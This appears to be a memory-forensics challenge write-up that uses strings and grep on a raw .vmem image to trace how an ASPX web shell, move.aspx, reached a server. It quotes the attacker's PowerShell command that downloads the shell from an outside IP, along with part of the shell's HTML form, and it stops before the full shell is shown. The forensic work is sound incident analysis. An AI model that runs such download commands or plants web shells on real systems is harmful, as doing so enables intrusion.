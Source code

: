 ### Overview

I have a raw 4GB memory file, `I-like-to-27a787c5.vmem`. As the scenario
says, I don't have the necessary metadata to read it into a tool like
Volatility and do real memory analysis. Still `strings` is a really nice
way to get some clues about what's going on. I can't try to look at all
the strings (there will be just too many), but I can search for
interesting terms, which is why I leave this section for last, once I
know a good bit about what is going on with the incident (though in real
life I would be bouncing between sources).

I'm going to save the strings to a file so I don't have to re-grep the
entire file each time I want to search:



    oxdf@hacky$ strings I-like-to-27a787c5.vmem > I-like-to-27a787c5.vmem.strings
    oxdf@hacky$ strings -e l I-like-to-27a787c5.vmem >> I-like-to-27a787c5.vmem.strings 



### Web Shells

#### move.aspx

I'll search for `move.aspx` with `grep` against the strings file. It can
be helpful to pipe that into `sort -u` to get rid of duplicate strings.
I'll find things like the IIS log lines

One interesting thing that jumps out looks like the PowerShell command
that downloads the webshell from the attacker IP:



    wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx



That's a clear answer to the question of how the webshell was downloaded
(matching what was in the console history).

There's a couple lines that look like HTML:



            <filedep name="/move.aspx" />
    <form name="cmd" method="post" action="./move.aspx" id="cmd">



I'll see if I can get the line around that with `grep` using `-A` for
lines after and `-B` for lines before, something like:



    oxdf@hacky$ cat I-like-to-27a787c5.vmem.strings | grep '<form name="cmd" method="post" action="./move.aspx">' -A 40 -B 20 | less



{;.wrap}

There's a few instances of the line, and I can put together the full
webshell:
